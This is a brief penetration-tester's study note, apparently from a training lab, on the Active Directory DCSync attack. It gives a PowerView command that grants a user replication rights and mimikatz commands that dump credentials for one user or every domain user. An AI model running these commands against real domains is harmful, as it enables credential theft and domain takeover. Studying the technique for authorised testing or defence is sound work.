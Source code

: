```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
- DC Sync requires only two rights on the domain object.
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set (Optional maybe)
- Changes to the ACL of the `domain object` will be logged.

## Replication Rights
We can give our user replication rights, using `powerview.ps1`
```powershell
. .\powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
### Mimikatz
- Requires "Domain Admins" privs.
```powershell
# Dump credentails for a single user
lsadump::dcsync /domain:mydomain.local /user:<username>

# Dump credentials of all the domain user
log myfile.txt
lsadump::dcsync /domain:mydomain.local /all
```